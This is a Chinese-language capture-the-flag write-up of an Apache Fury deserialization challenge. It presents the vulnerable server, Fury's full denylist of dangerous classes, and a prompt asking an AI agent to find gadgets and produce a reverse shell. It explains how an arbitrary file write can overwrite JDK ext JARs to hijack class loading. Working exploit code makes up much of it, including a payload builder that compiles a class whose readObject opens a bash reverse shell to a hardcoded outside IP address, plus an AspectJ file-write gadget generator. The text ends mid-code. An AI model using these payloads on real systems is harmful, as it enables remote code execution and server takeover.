


## TL;DR

之前我有一篇文章 https://baozongwi.xyz/p/alictf-2025-jtools/  
就是 fury 反序列化，并且我之前学习复现的时候，知道了华东北分区赛少了一个依赖`com.feilong.lib`，我猜测可能在未来这个出题人还会再次掏出这题，~~而出题人也就是大家熟知的 yemoli 大手子👍~~，我就和 **疏狂** 说了好几次要研究研究，最后还是忙了没研究，不过狂哥水平比较高，最后还是把这题秒了，并且是非预期，拿了 5000 奖金，我好羡慕啊🫡

## 分析

Manifest 给了入口

```
Manifest-Version: 1.0
Main-Class: com.app.UndertowRoutingServer
```

控制器

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package com.app;

import io.undertow.Handlers;
import io.undertow.Undertow;
import io.undertow.server.handlers.PathHandler;
import io.undertow.server.handlers.form.FormData;
import io.undertow.server.handlers.form.FormDataParser;
import io.undertow.server.handlers.form.FormParserFactory;
import io.undertow.util.Headers;
import io.undertow.util.Methods;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

public class UndertowRoutingServer {
    public static void main(String[] args) {
        PathHandler routes = Handlers.path().addExactPath("/", (exchange) -> {
            exchange.getResponseHeaders().put(Headers.CONTENT_TYPE, "text/plain; charset=utf-8");
            exchange.getResponseSender().send("hello ctfer!!!");
        }).addExactPath("/api/deser", (exchange) -> {
            if (exchange.getRequestMethod().equals(Methods.POST)) {
                FormDataParser parser = FormParserFactory.builder().build().createParser(exchange);
                String decodedStr = null;
                if (parser != null) {
                    FormData formData = parser.parseBlocking();
                    FormData.FormValue v = formData.getFirst("data");
                    if (v != null) {
                        byte[] decoded = Base64.getDecoder().decode(v.getValue());
                        decodedStr = new String(decoded, StandardCharsets.UTF_8);
                        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
                        fury.deserialize(decoded);
                    }
                }

                if (decodedStr != null) {
                    exchange.getResponseHeaders().put(Headers.CONTENT_TYPE, "text/plain; charset=utf-8");
                    exchange.getResponseSender().send(decodedStr);
                } else {
                    exchange.setStatusCode(400);
                    exchange.getResponseHeaders().put(Headers.CONTENT_TYPE, "text/plain; charset=utf-8");
                    exchange.getResponseSender().send("missing data");
                }
            } else {
                exchange.getResponseHeaders().put(Headers.CONTENT_TYPE, "application/json; charset=utf-8");
                exchange.getResponseSender().send("{\"msg\":\"hello\"}");
            }

        });
        Undertow server = Undertow.builder().addHttpListener(8081, "0.0.0.0").setHandler(routes).build();
        server.start();
    }
}
```

直接给了反序列化路由，fury 反序列化配置为

```java
Fury fury = Fury.builder()
        .withLanguage(Language.JAVA)
        .requireClassRegistration(false)
        .build();
fury.deserialize(data);
```

`requireClassRegistration(false)` 说明可以走未注册类，但 Fury 自带 denylist。

```
bsh.Interpreter
bsh.XThis
ch.qos.logback.core.db.DriverManagerConnectionSource
ch.qos.logback.core.db.JNDIConnectionSource
clojure.core
clojure.main
com.caucho.config.types.ResourceRef
com.caucho.hessian.test.TestCons
com.caucho.naming.QName
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.Base64Data
com.ibm.xltxe.rnm1.xtq.bcel.util.ClassLoader
com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlDataSource
com.mysql.cj.jdbc.MysqlXADataSource
com.mysql.jdbc.jdbc2.optional.MysqlDataSource
com.mysql.jdbc.util.ServerController
com.rometools.rome.feed.impl.EqualsBean
com.rometools.rome.feed.impl.ToStringBean
com.sun.corba.se.impl.activation.ServerManagerImpl
com.sun.corba.se.impl.activation.ServerTableEntry
com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl.CustomCompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.LinkedInvocationHandler
com.sun.jndi.ldap.LdapAttribute
com.sun.jndi.rmi.registry.BindingEnumeration
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl
com.sun.org.apache.bcel.internal.util.ClassLoader
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
com.sun.org.apache.xpath.internal.objects.XString
com.sun.org.apache.xpath.internal.XPathContext
com.sun.rowset.JdbcRowSetImpl
com.sun.syndication.feed.impl.EqualsBean
com.sun.syndication.feed.impl.ObjectBean
com.sun.syndication.feed.impl.ToStringBean
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data
com.zaxxer.hikari.HikariConfig
com.zaxxer.hikari.HikariDataSource
groovy.lang.PropertyValue
groovy.util.MapEntry
java.beans.EventHandler
java.beans.Expression
java.lang.invoke.InvokeDynamic
java.lang.invoke.MethodHandles.Lookup
java.lang.MethodHandle
java.lang.Process
java.lang.ProcessBuilder
java.lang.reflect.Constructor
java.lang.reflect.Field
java.lang.reflect.Method
java.lang.Runtime
java.lang.Shutdown
java.lang.System
java.lang.Thread
java.lang.ThreadGroup
java.lang.ThreadLocal
java.lang.UNIXProcess
java.lang.VarHandler
java.net.Socket
java.rmi.registry.Registry
java.rmi.server.ObjID
java.rmi.server.RemoteObjectInvocationHandler
java.rmi.server.UnicastRemoteObject
java.security.SignedObject
java.util.ServiceLoader
javassist.bytecode.annotation.Annotation
javassist.bytecode.annotation.AnnotationImpl
javassist.bytecode.annotation.AnnotationMemberValue
javassist.tools.web.Viewer
javassist.util.proxy.SerializedProxy
javax.activation.MimeTypeParameterList
javax.imageio.ImageIO
javax.imageio.spi.ServiceRegistry
javax.management.BadAttributeValueExpException
javax.management.ImmutableDescriptor
javax.management.MBeanServerInvocationHandler
javax.management.openmbean.CompositeDataInvocationHandler
javax.media.jai.remote.SerializableRenderedImage
javax.naming.InitialContext
javax.naming.ldap.Rdn
javax.naming.spi.ContinuationContext.getEnvironment
javax.naming.spi.ContinuationContext.getTargetContext
javax.naming.spi.ObjectFactory
javax.script.ScriptEngineManager
javax.sound.sampled.AudioFileFormat
javax.sound.sampled.AudioFormat
javax.swing.UIDefaults
javax.xml.transform.Templates
net.bytebuddy.dynamic.loading.ByteArrayClassLoader
oracle.jdbc.connector.OracleManagedConnectionFactory
oracle.jdbc.pool.OracleDataSource
org.apache.activemq.ActiveMQConnectionFactory
org.apache.activemq.ActiveMQXAConnectionFactory
org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory
org.apache.bcel.util.ClassLoader
org.apache.carbondata.core.scan.expression.ExpressionResult
org.apache.commons.beanutils.BeanComparator
org.apache.commons.beanutils.BeanToPropertyValueTransformer
org.apache.commons.codec.binary.Base64
org.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.ConstantTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.Transformer
org.apache.commons.collections4.comparators.TransformingComparator
org.apache.commons.collections4.functors.ChainedTransformer
org.apache.commons.collections4.functors.ConstantTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.configuration.JNDIConfiguration
org.apache.commons.configuration2.JNDIConfiguration
org.apache.commons.dbcp.datasources.PerUserPoolDataSource
org.apache.commons.dbcp.datasources.SharedPoolDataSource
org.apache.commons.dbcp2.datasources.PerUserPoolDataSource
org.apache.commons.dbcp2.datasources.SharedPoolDataSource
org.apache.commons.fileupload.disk.DiskFileItem
org.apache.ibatis.executor.loader.AbstractSerialStateHolder
org.apache.ibatis.executor.loader.cglib.CglibProxyFactory
org.apache.ibatis.executor.loader.CglibSerialStateHolder
org.apache.ibatis.executor.loader.javassist.JavassistSerialStateHolder
org.apache.ibatis.executor.loader.JavassistSerialStateHolder
org.apache.ibatis.javassist.bytecode.annotation.Annotation
org.apache.ibatis.javassist.bytecode.annotation.AnnotationImpl
org.apache.ibatis.javassist.bytecode.annotation.AnnotationMemberValue
org.apache.ibatis.javassist.tools.web.Viewer
org.apache.ibatis.javassist.util.proxy.SerializedProxy
org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup
org.apache.log.output.db.DefaultDataSource
org.apache.log4j.receivers.db.DriverManagerConnectionSource
org.apache.myfaces.context.servlet.FacesContextImpl
org.apache.myfaces.context.servlet.FacesContextImplBase
org.apache.myfaces.el.CompositeELResolver
org.apache.myfaces.el.unified.FacesELContext
org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression
org.apache.openjpa.ee.JNDIManagedRuntime
org.apache.openjpa.ee.RegistryManagedRuntime
org.apache.shiro.jndi.JndiObjectFactory
org.apache.shiro.realm.jndi.JndiRealmFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSource
org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource
org.apache.velocity.runtime.resource.ContentResource
org.apache.velocity.runtime.resource.loader.DataSourceResourceLoader
org.apache.velocity.runtime.resource.Resource
org.apache.velocity.Template
org.apache.wicket.util.upload.DiskFileItem
org.apache.xalan.xsltc.trax.TemplatesImpl
org.apache.xbean.naming.context.ContextUtil
org.apache.xpath.XPathContext
org.apache.zookeeper.Shell
org.aspectj.apache.bcel.util.ClassLoader
org.bouncycastle.asn1.ASN1Object
org.bouncycastle.asn1.x509.X509Extensions
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.GStringImpl
org.codehaus.groovy.runtime.MethodClosure
org.datanucleus.store.rdbms.datasource.dbcp.datasources.PerUserPoolDataSource;
org.datanucleus.store.rdbms.datasource.dbcp.datasources.SharedPoolDataSource;
org.eclipse.jetty.util.log.LoggerLog
org.geotools.filter.ConstantExpression
org.h2.value.ValueJavaObject
org.h2.message.Trace
org.h2.message.TraceObject
org.h2.message.TraceSystem
org.h2.message.TraceWriterAdapter
org.h2.jdbcx.JdbcDataSource
org.hibernate.engine.spi.TypedValue
org.hibernate.tuple.component.AbstractComponentTuplizer
org.hibernate.tuple.component.PojoComponentTuplizer
org.hibernate.type.AbstractType
org.hibernate.type.ComponentType
org.hibernate.type.Type
org.jboss.ejb3.proxy.handle.HomeHandleImpl
org.jboss.ejb3.stateful.StatefulHandleImpl
org.jboss.ejb3.stateless.StatelessHandleImpl
org.jboss.interceptor.builder.InterceptionModelBuilder
org.jboss.interceptor.builder.MethodReference
org.jboss.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.interceptor.proxy.InterceptorMethodHandler
org.jboss.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.interceptor.reader.DefaultMethodMetadata
org.jboss.interceptor.reader.ReflectiveClassMetadata
org.jboss.interceptor.reader.SimpleInterceptorMetadata
org.jboss.interceptor.spi.instance.InterceptorInstantiator
org.jboss.interceptor.spi.metadata.InterceptorReference
org.jboss.interceptor.spi.metadata.MethodMetadata
org.jboss.interceptor.spi.model.InterceptionModel
org.jboss.interceptor.spi.model.InterceptionType
org.jboss.proxy.ejb.handle.EntityHandleImpl
org.jboss.proxy.ejb.handle.HomeHandleImpl
org.jboss.proxy.ejb.handle.StatefulHandleImpl
org.jboss.proxy.ejb.handle.StatelessHandleImpl
org.jboss.resteasy.plugins.server.resourcefactory.JndiResourceFactory
org.jboss.weld.interceptor.builder.InterceptionModelBuilder
org.jboss.weld.interceptor.builder.MethodReference
org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.weld.interceptor.proxy.InterceptorMethodHandler
org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.weld.interceptor.reader.DefaultMethodMetadata
org.jboss.weld.interceptor.reader.ReflectiveClassMetadata
org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata
org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator
org.jboss.weld.interceptor.spi.metadata.InterceptorReference
org.jboss.weld.interceptor.spi.metadata.MethodMetadata
org.jboss.weld.interceptor.spi.model.InterceptionModel
org.jboss.weld.interceptor.spi.model.InterceptionType
org.mockito.internal.creation.cglib.AcrossJVMSerializationFeature
org.mortbay.log.Slf4jLog
org.mozilla.javascript.Context
org.mozilla.javascript.IdScriptableObject
org.mozilla.javascript.MemberBox
org.mozilla.javascript.NativeError
org.mozilla.javascript.NativeJavaMethod
org.mozilla.javascript.NativeJavaObject
org.mozilla.javascript.NativeObject
org.mozilla.javascript.ScriptableObject
org.python.core.PyBytecode
org.python.core.PyFunction
org.python.core.PyObject
org.quartz.utils.JNDIConnectionProvider
org.reflections.Reflections
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator
org.springframework.aop.framework.AdvisedSupport
org.springframework.aop.framework.JdkDynamicAopProxy
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
org.springframework.aop.target.SingletonTargetSource
org.springframework.beans.BeanWrapperImpl
org.springframework.beans.factory.BeanFactory
org.springframework.beans.factory.config.MethodInvokingFactoryBean
org.springframework.beans.factory.config.PropertyPathFactoryBean
org.springframework.beans.factory.ObjectFactory
org.springframework.beans.factory.support.DefaultListableBeanFactory
org.springframework.core.SerializableTypeWrapper
org.springframework.expression.spel.ast.Indexer
org.springframework.expression.spel.ast.MethodReference
org.springframework.jndi.JndiObjectTargetSource
org.springframework.jndi.support.SimpleJndiBeanFactory
org.springframework.orm.jpa.AbstractEntityManagerFactoryBean
org.springframework.transaction.jta.JtaTransactionManager
org.thymeleaf.standard.expression.Expression
org.thymeleaf.standard.expression.StandardExpressionParser
org.yaml.snakeyaml.tokens.DirectiveToken
pstore.shaded.org.apache.commons.collections.functors.InvokerTransformer
sun.print.PrintServiceLookupProvider
sun.print.UnixPrintService
sun.print.UnixPrintServiceLookup
sun.rmi.server.UnicastRef
sun.rmi.server.UnicastRef2
sun.rmi.transport.LiveRef
sun.rmi.transport.tcp.TCPEndpoint
sun.swing.SwingLazyValue
weblogic.ejb20.internal.LocalHomeHandleImpl
weblogic.jms.common.ObjectMessageImpl
com.atomikos.icatch.jta.RemoteClientUserTransaction
```

附件里比较有用的依赖：

```text
org.apache.fury:fury-core:0.10.3
commons-collections:commons-collections:3.2.2
com.google.http-client:google-http-client:1.46.1
org.aspectj:aspectjweaver
```

Fury 的 denylist 在 `fury/disallowed.txt`，这几个会直接影响选链：

```text
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
javax.xml.transform.Templates
java.beans.EventHandler
javax.management.BadAttributeValueExpException
org.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.Transformer
java.lang.Runtime
java.lang.ProcessBuilder
```

这意味着 CC6、TemplatesImpl 不能直接作为 Fury 层对象出现。要么是二次反序列化 RCE，要么找不碰黑名单的对象做文件写，做文件写的时候还需要让 Fury 先反序列化一个安全对象，再由这个对象在运行时打开 Java 原生反序列化。

remote 是8u342，那么现在就是最纯粹的 gadget 挖掘了，使用以下 prompt

```
当前libs目录下的 Fileury.jar 是一道 CTF 题目的附件，这是一道 java 反序列化的题目，其中有两种解法，一种是任意文件写gadget + 由于靶机开启 -verbose:class 参数，通过监控类加载情况，精准定位未被加载的 JAR 包实施覆盖利用；还有一种是二次反序列化 gadget 直接 RCE，由于 remote 是出网的，所以本地测试也要求直接反弹 shell。
要求写一份 write-up.md 在当前目录，格式以及语言参考 baozongwi.xyz，只写一些重要的分析过程，主要是代码层级的分析，可以使用 可以使用 jar-audit-agent skill，使用 /Users/baozongwi/Tools/javaTools下的 jar-analyzer 的 两个MCP，来分析，以及 subagent 模式尽快完成这次任务

任意文件写 gadget 可参考 https://meizjm3i.github.io/2021/03/07/Servlet%E4%B8%AD%E7%9A%84%E6%97%B6%E9%97%B4%E7%AB%9E%E4%BA%89%E4%BB%A5%E5%8F%8AAsjpectJWeaver%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadget%E6%9E%84%E9%80%A0-AntCTFxD-3CTF-non-RCE%E9%A2%98%E8%A7%A3/
https://www.anquanke.com/post/id/256974 但是需要做一下本题的适配
二次反序列化 gadget 可参考 https://baozongwi.xyz/p/alictf-2025-jtools/#jtools
需要绕过因为当前黑名单没有`com.feilong.lib`
```

## 任意文件写 gadget

这里有三条 gadget，如下

```
1. HashSet + TiedMapEntry + LazyMap + StoreableCachingMap
2. TreeMultimap + UsingToStringOrdering + TiedMapEntry + LazyMap + StoreableCachingMap
3. PriorityQueue + TransformingComparator + MapTransformer + LazyMap + StoreableCachingMap
```

使用的 pom.xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>ctf.fileury</groupId>
    <artifactId>fileury-exp</artifactId>
    <version>1.0-SNAPSHOT</version>
    <packaging>jar</packaging>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>1.8</maven.compiler.source>
        <maven.compiler.target>1.8</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>ctf.fileury</groupId>
            <artifactId>fileury-fatjar</artifactId>
            <version>1.0</version>
            <scope>system</scope>
            <systemPath>${project.basedir}/libs/Fileury.jar</systemPath>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.13.0</version>
                <configuration>
                    <source>1.8</source>
                    <target>1.8</target>
                    <encoding>UTF-8</encoding>
                </configuration>
            </plugin>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>exec-maven-plugin</artifactId>
                <version>3.6.3</version>
                <configuration>
                    <classpathScope>compile</classpathScope>
                    <includeProjectDependencies>true</includeProjectDependencies>
                    <includePluginDependencies>false</includePluginDependencies>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

并且在 AI 的挖掘成果中并没有出现二次反序列化 RCE gadget，最终都是实现任意文件写，那么由于目标进程对 JDK ext 目录有写权限，就可以覆盖 ext 目录里的 JAR。  
所以测试的时候，第一阶段都是覆盖 JDK ext JAR。第二阶段都是直接 Fury 反序列化同名类对象，触发恶意类 `readObject()` 执行命令。

> 这类手法的本质是把“任意文件写”转化成“Java 类加载劫持”。在 JDK 8 中，`jre/lib/ext` 目录下的 JAR 会被 `ExtClassLoader` 自动加入扩展类路径，如果攻击者能覆盖其中某个 JAR，并放入与目标触发类同名的恶意 class，那么当 JVM 后续第一次加载该类时，就会从被污染的 ext JAR 中读取并初始化恶意类，从而触发 `static` 代码块、构造方法或相关初始化逻辑完成代码执行。关键限制是：目标进程必须对 ext 目录有写权限，并且被劫持的类此前不能已经被当前 JVM 加载过，否则覆盖 JAR 不会影响内存中已加载的类。总体上可以理解为 JDK 8 扩展目录下的 classpath 污染，类似 PATH 劫持或 DLL 劫持。

而如此精彩的手法在 JDK9 之后就被取消了，Java 引入了模块化系统（Project Jigsaw），取消了扩展机制和 `ext` 目录。在本地我们可以通过`java -verbose:class -jar your-app.jar`查看已被加载的 jar

```sh
java -verbose:class -jar Fileury.jar | grep "jre/lib/ext"
```

测试成功的如下

```
1. /usr/local/openjdk-8/jre/lib/ext/sunpkcs11.jar
   trigger.class = sun.security.pkcs11.SunPKCS11$Descriptor

2. /usr/local/openjdk-8/jre/lib/ext/dnsns.jar
   trigger.class = sun.net.spi.nameservice.dns.DNSNameService

3. /usr/local/openjdk-8/jre/lib/ext/nashorn.jar
   trigger.class = jdk.nashorn.api.scripting.NashornScriptEngineFactory

4. /usr/local/openjdk-8/jre/lib/ext/sunjce_provider.jar
   trigger.class = com.sun.crypto.provider.PBKDF2Core$HmacSHA224
```

使用到的重构 jar 的工具类

```java
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.File;
import java.io.FileOutputStream;
import java.net.URL;
import java.net.URLClassLoader;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.jar.JarEntry;
import java.util.jar.JarOutputStream;

final class PayloadUtil {
    private static final String REVERSE_SHELL = "/bin/bash -c 'bash -i >& /dev/tcp/156.239.238.130/12345 0>&1'";

    static final Path PAYLOAD_DIR = Paths.get("payloads");
    static final Path EVIL_JAR = PAYLOAD_DIR.resolve("evil.jar");
    static final Path TRIGGER_PAYLOAD = PAYLOAD_DIR.resolve("direct_fury_trigger.b64");

    private PayloadUtil() {
    }

    static Fury newFury() {
        return Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();
    }

    static byte[] buildEvilJar(String triggerClass) throws Exception {
        File work = Files.createTempDirectory("fileury-evil-").toFile();
        File srcRoot = new File(work, "src");
        File classes = new File(work, "classes");
        File src = new File(srcRoot, triggerClass.replace('.', '/') + ".java");
        File classFile = new File(classes, triggerClass.replace('.', '/') + ".class");
        src.getParentFile().mkdirs();
        classes.mkdirs();

        String packageName = triggerClass.substring(0, triggerClass.lastIndexOf('.'));
        String simpleName = triggerClass.substring(triggerClass.lastIndexOf('.') + 1);
        String code = "package " + packageName + ";\n"
                + "public class " + simpleName + " implements java.io.Serializable {\n"
                + "  private static final long serialVersionUID = 1L;\n"
                + "  public " + simpleName + "() {}\n"
                + "  private void readObject(java.io.ObjectInputStream in) throws java.io.IOException, ClassNotFoundException {\n"
                + "    try { Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"" + javaString(REVERSE_SHELL) + "\"}); } catch (Throwable ignored) {}\n"
                + "  }\n"
                + "}\n";
        Files.write(src.toPath(), code.getBytes("UTF-8"));

        JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
        if (compiler == null) {
            throw new IllegalStateException("JavaCompiler unavailable; run with a JDK, not a JRE");
        }
        int rc = compiler.run(null, null, null, "-source", "8", "-target", "8", "-d", classes.getAbsolutePath(), src.getAbsolutePath());
        if (rc != 0) {
            throw new IllegalStateException("javac failed: " + rc);
        }

        File jar = new File(work, "evil.jar");
        JarOutputStream jos = new JarOutputStream(new FileOutputStream(jar));
        jos.putNextEntry(new JarEntry(triggerClass.replace('.', '/') + ".class"));
        Files.copy(classFile.toPath(), jos);
        jos.closeEntry();
        jos.close();
        return Files.readAllBytes(jar.toPath());
    }

    static Object makeTriggerObject(String triggerClass) throws Exception {
        URLClassLoader loader = new URLClassLoader(new URL[]{EVIL_JAR.toUri().toURL()}, null);
        Class<?> clazz = Class.forName(triggerClass, false, loader);
        return clazz.newInstance();
    }

    static void writeBase64(Path path, byte[] bytes) throws Exception {
        Files.write(path, Base64.getEncoder().encode(bytes));
    }

    private static String javaString(String value) {
        return value.replace("\\", "\\\\").replace("\"", "\\\"");
    }
}
```

### gadget 001

```text
HashSet.readObject
HashMap.readObject
HashMap.hash
TiedMapEntry.hashCode
TiedMapEntry.getValue
LazyMap.get("sunpkcs11.jar")
ConstantFactory.create -> evil.jar bytes
LazyMap.put("sunpkcs11.jar", evil.jar bytes)
SimpleCache$StoreableCachingMap.put
writeToPath("sunpkcs11.jar", evil.jar bytes)
```

关键点是 `TiedMapEntry.hashCode()` 会取 value：

```java
public int hashCode() {
    Object value = getValue();
    return (getKey() == null ? 0 : getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
}
```

`getValue()` 进入 `LazyMap.get(key)`。因为 `sunpkcs11.jar` 这个 key 不存在，`LazyMap` 会调用 `Factory.create()` 生成 value，再把 value 写回底层 map。  
底层 map 被换成 AspectJ 的 `SimpleCache$StoreableCachingMap`。它的 `put()` 不是普通内存写，而是把 `byte[]` 写到磁盘：

```java
public Object put(Object key, Object value) {
    byte[] valueBytes = (byte[]) value;
    String path = writeToPath((String) key, valueBytes);
    return super.put(key, path);
}
```

所以 `LazyMap.put("sunpkcs11.jar", evilJarBytes)` 最终会写入文件

```java
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.fury.Fury;
import org.apache.fury.logging.LoggerFactory;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class HashSetTiedMapEntryJarWriteGadget {
    private static final String TARGET_JAR = System.getProperty("target.jar", "/usr/local/openjdk-8/jre/lib/ext/sunpkcs11.jar");
    private static final String TRIGGER_CLASS = System.getProperty("trigger.class", "sun.security.pkcs11.SunPKCS11$Descriptor");
    private static final Path WRITE_PAYLOAD = PayloadUtil.PAYLOAD_DIR.resolve("01_hashset_filewrite_ext_jar.b64");

    public static void main(String[] args) throws Exception {
        LoggerFactory.disableLogging();
        Files.createDirectories(PayloadUtil.PAYLOAD_DIR);

        byte[] evilJar = PayloadUtil.buildEvilJar(TRIGGER_CLASS);
        Files.write(PayloadUtil.EVIL_JAR, evilJar);

        Fury fury = PayloadUtil.newFury();
        PayloadUtil.writeBase64(WRITE_PAYLOAD, fury.serialize(aspectjFileWrite(TARGET_JAR, evilJar)));
        PayloadUtil.writeBase64(PayloadUtil.TRIGGER_PAYLOAD, fury.serialize(PayloadUtil.makeTriggerObject(TRIGGER_CLASS)));

        System.out.println("wrote " + PayloadUtil.EVIL_JAR);
        System.out.println("wrote " + WRITE_PAYLOAD);
        System.out.println("wrote " + PayloadUtil.TRIGGER_PAYLOAD);
    }

    private static Object aspectjFileWrite(String targetPath, byte[] content) throws Exception {
        int i = targetPath.lastIndexOf('/');
        if (i < 0) {
            throw new IllegalArgumentException("target path must include a directory");
        }
        String folder = targetPath.substring(0, i);
        String filename = targetPath.substring(i + 1);

        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Method init = clazz.getDeclaredMethod("init", String.class, int.class);
        init.setAccessible(true);
        Map<Object, Object> store = (Map<Object, Object>) init.invoke(null, folder, 0);

        Factory factory = ConstantFactory.getInstance(content);
